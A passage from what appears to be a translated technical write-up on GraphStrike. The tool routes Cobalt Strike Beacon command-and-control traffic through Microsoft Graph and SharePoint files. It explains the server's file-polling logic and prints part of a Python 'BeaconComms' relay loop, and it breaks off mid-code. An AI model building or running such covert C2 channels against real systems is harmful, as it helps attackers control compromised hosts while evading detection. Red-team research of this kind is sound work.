 "CheckBeacons" 开始通过进行 Graph API 请求，获取用于 GraphStrike 的特定 SharePoint 驱动器中存储的所有文件的列表。此查询返回的每个文件都与一个 Cobalt Strike Beacon 相关联，并添加到内部数据结构中进行跟踪。"CheckBeacons" 的后续调用再次获取此列表（该函数每半秒运行一次），并将其与内部模型中的数据进行比较；两者之间的差异作为服务器行为改变的信号。

在 SharePoint 中出现的每个新文件都代表一个全新的 Beacon，或者至少是与现有 TS 任务文件配对的新 Beacon 输出文件。Beacon 的 TS 任务文件和 Beacon 输出文件天然相关联，服务器利用这种关系和每个文件的状态作为其流控制策略的一部分。上一节中已经讨论了其中一些内容，涉及到在从 TS 发送更多任务之前等待 Beacon 下载并清空任务文件。实际上，服务器中的所有复杂性都涉及到需要符合 Beacon HTTP 事务生命周期的需求。服务器跟踪的每个 Beacon 都有一些相关的变量，用于更新、切换或引用，以便促进这一过程。即使对我来说，试图通过代码片段来追踪所有这些变量也会感到困惑，所以我选择保持细节简洁。

服务器为找到的每个唯一的 TS 任务文件启动一个新线程；每个线程代表一个 Beacon。此线程运行名为 "BeaconComms" 的函数，它是一个无限循环，用于为单个 Beacon 进行通信：

```plain
def BeaconComms(fileName):

    # Retrieve entry from dictionary
    comms = masterTracker[fileName]

    # Run in endless loop
    while True:

        # Block here depending on state of taskingReady event handler
        comms['taskingReady'].wait()

        # If killThread is true, a TS task has been queued for Beacon without it retrieving it for longer than
        # the allowed timeout and this BeaconComms channel has been signaled to exit to conserve resources.
        if comms['state'].state == 'timeout' and comms['killThread']:
            p_info(f"Beacon {comms['beaconId']}: timed out -> killing thread.")
            return

        # Send Beacon http-get to TS + return any tasking
        tasking = SendGetToTS(fileName, False)

        # If TS returned data, we need to upload it to the TS tasking file
        if len(tasking) > 0:
            UploadFile(fileName, tasking)

            # Clear taskingReady event handler so that we will block at the start of next loop until we see
            # that Beacon has received + cleared the TS tasking file
            comms['taskingReady'].clear()

        # Get current time before waiting for signal
        bt = datetime.datetime.now(datetime.timezone.utc)

        # Wait until we are signaled that Beacon has output, up to a max of the Beacon's sleep time
        comms['outputReady'].wait(comms['sleepTime'])

        # If the sleep ended because we were signaled, retrieve it and send to TS
        if comms['outputReady'].is_set():

            # If state is removing + killThread has been signaled, kill Beacon thread here.
            if (comms['state'].state == 'removing') and comms['killThread']:
                p_info(f"Beacon {comms['beaconId']}: removed from CS -> killing thread")
                return

            # Clear event handler so that we will block again in the future on this Beacon output file
            comms['outputReady'].clear()

            # Download the Beacon output file
            data = DownloadFile(comms['http-post'])

            # Zero out the Beacon output file to signal Beacon we have received the last
```